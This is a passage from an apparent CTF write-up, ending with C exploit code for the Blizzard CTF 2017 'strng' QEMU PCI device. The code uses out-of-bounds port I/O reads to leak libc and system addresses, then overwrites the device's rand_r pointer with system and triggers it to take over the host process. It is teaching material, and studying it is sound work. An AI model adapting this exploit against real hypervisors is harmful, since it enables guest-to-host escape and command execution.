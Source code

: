 ```c
    
    /*
     * Stage.I - leaking libc addr
     * set the strng->addr by pmio_write to a oob val
     * so that we can make an oob read by pmio_read
     */
    puts("[*] Stage.I - leaking libc addr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 1) << 2);
    srand_addr_low = pmio_read(pmio_port + STRNG_PMIO_DATA);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 2) << 2);
    srand_addr_high = pmio_read(pmio_port + STRNG_PMIO_DATA);

    srand_addr = srand_addr_high;
    srand_addr <<= 32;
    srand_addr += srand_addr_low;
    libc_addr = srand_addr - 0x460a0;
    system_addr = libc_addr + 0x50d60;

    printf("[+] get addr of srand: 0x%llx\n", srand_addr);
    printf("[+] libc addr: 0x%llx\n", libc_addr);
    printf("[+] system addr: 0x%llx\n", system_addr);

    /*
     * Stage.II - overwrite the rand_r ptr
     * set the strng->rand_r to system by oob write in pmio
     */
    puts("\n[*] Stage.II - overwrite the rand_r ptr\n");

    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 5) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) system_addr);
    pmio_write(pmio_port + STRNG_PMIO_ADDR, (STRNG_MMIO_REGS + 6) << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, (uint32_t) (system_addr >> 32));

    puts("[+] write done!");

    /*
     * Stage.III - control flow hijack!
     * call the strng->rand_r by pmio_write and hijack the control flow!
     */
    puts("\n[*] Stage.III - control flow hijack\n");

    puts("[*] trigger the strng->rand_r()...");
    pmio_write(pmio_port + STRNG_PMIO_ADDR, 3 << 2);
    pmio_write(pmio_port + STRNG_PMIO_DATA, 0xdeadbeef);

}
```

## REFERENCE

[qemu pwn-Blizzard CTF 2017 Strng writeup](https://xz.aliyun.com/t/6618#toc-4)

[【HARDWARE.0x00】PCI 设备简易食用手册](https://arttnba3.cn/2022/08/30/HARDWARE-0X00-PCI_DEVICE/)

